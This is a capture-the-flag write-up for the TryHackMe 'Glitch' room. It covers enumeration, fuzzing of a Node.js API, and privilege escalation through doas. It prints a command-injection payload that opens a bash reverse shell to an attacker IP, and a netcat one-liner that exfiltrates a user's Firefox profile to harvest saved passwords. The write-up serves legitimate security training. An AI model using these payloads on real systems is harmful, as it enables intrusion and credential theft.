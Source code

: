```yaml
---
title: "Glitch TryHackMe"
date: "07-28-2021"
author: "Reda BELHAJ"
summary: "This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Created by @infamous55"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/GLITCH/bg.png"
---
```

Let’s take a look at the [Glitch CTF](https://tryhackme.com/room/glitch) on TryHackMe Created by **@infamous55**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.204.132 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 80 you guessed it that's HTTP.
![Nmap](/images/GLITCH/nmap.jpg)

After Inspecting the web application we can see an interesting script at the end of the page:
![Nmap](/images/GLITCH/source.jpg)

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/GLITCH/gouster.jpg)

Actually i run two scans one on the main directory of the application and the other one on tha api directory:
![Gobuster](/images/GLITCH/gobuster2.jpg)

## Exploring 
When I look at the script that I found on the source code of the page I decided to browse into the `/api/access` page and I found a token with a base64 encoded value:

```
{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

So I run this command to decode the token and then I set the cookie and reopen the site:

```
echo dGhpc19pc19ub3RfcmVhbA== | base64 --decode
```
![Token](/images/GLITCH/token.jpg)

With the hint from TryHackMe I decided to try POST method on the items api:

```
curl -X POST http://10.10.204.132/api/items
```

```
{"message":"there_is_a_glitch_in_the_matrix"}
```
It's kinda weird, So There must be a missing parameter or something. Let’s try to fuzz it with **wfuzz**:

```
wfuzz -X POST -w /usr/share/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.204.132/api/items?FUZZ=oops
```
![Wfuzz](/images/GLITCH/wfuzz.jpg)

And Also the “secret” endpoint found with gobuster was just a rabbit hole. After setting the cookie and opening the site, multiple pictures of a rabbit was displayed with a caption that said `Mad`.
![Rabbit](/images/GLITCH/rabbit.png)

## Exploiting
With the payload that we found with **wfuzz** I tried to generate an error:

```
curl -X POST http://10.10.16.166/api/items?cmd=test
```
![Curl](/images/GLITCH/curl.jpg)
It's an error generated by **Node.Js**

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload:

```
require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.50.72/4444+0>%261"')
```
![Burp](/images/GLITCH/burp.jpg)

## User Flag
Now we're in the machine and I decided to take a look at the `package.json` to see the tech stack of the web app:
![Build](/images/GLITCH/build.jpg)

Then I found the user.txt file:

```
THM******************
```

## Root Flag
Inside the home directory of the user I notice a firefoz directory and I decided to compress it and download the archive locally to hopefully get some credentials:

```
tar cf - .firefox/ | nc 10.8.174.180 1234
```
```
nc -lvp 1234 | tar xf -
```
With the help of some blogs and videos I found [this blog](https://www.cyberciti.biz/faq/howto-run-firefox-from-the-command-line/) And I run firefox from the Command Line:

```
firefox --profile .firefox/b5w4643p.default-release --allow-downgrade
```
![Pass](/images/GLITCH/pass.jpg)
We can now switch to **v0id**:

![Sudo](/images/GLITCH/sudo.jpg)

And now with a fail `sudo -l` command I searched for files owned by root with the SUID:

```
find / -type f -user root -perm -u=s 2>/dev/null
```

And I found `doas` binary and you can run it and found the root flag:

```
doas -u root /bin/bash
```
```
THM*********************************
```
